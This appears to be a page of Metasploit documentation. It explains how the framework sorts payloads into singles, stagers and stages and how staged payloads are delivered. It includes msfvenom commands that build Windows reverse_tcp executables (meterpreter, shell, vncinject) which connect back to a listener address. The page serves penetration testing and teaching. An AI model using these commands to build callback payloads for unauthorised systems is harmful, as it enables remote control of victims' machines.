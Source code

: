 # How Payloads Work

Payload modules are stored in `modules/payloads/{singles,stages,stagers}/<platform>`. When the framework starts, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework knows how to create sessions with a given communications mechanism.

Payloads are given reference names that indicate all the pieces, like so:
  - Staged payloads: `<platform>/[arch]/<stage>/<stager>`
  - Single payloads: `<platform>/[arch]/<single>`

This results in payloads like `windows/x64/meterpreter/reverse_tcp`. Breaking that down, the platform is `windows`, the architecture is `x64`, the final stage we're delivering is `meterpreter`, and the stager delivering it is `reverse_tcp`.

Note that architecture is optional because in some cases it is either unnecessary or implied. An example is `php/meterpreter/reverse_tcp`. Arch is unneeded for PHP payloads because we're delivering interpreted code rather than native.

### Singles

Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.

### Stagers

Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.

### Stages

Since the stager will have taken care of dealing with any size restrictions by allocating a big chunk of memory for us to run in, stages can be arbitrarily large. One advantage of that is the ability to write final-stage payloads in a higher-level language like C.

## Delivering stages

1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
(Note that these are *functionally* identical -- there is a lot of randomization that goes into it so no two executables are exactly the same.)

1. The Ruby side acts as a client using whichever transport mechanism was set up by the stager (e.g.: tcp, http, https).
   * In the case of a shell stage, Metasploit will connect the remote process's stdio to your terminal when you interact with it.
   * In the case of a [[Meterpreter]] stage, Metasploit will begin speaking the Meterpreter wire protocol.


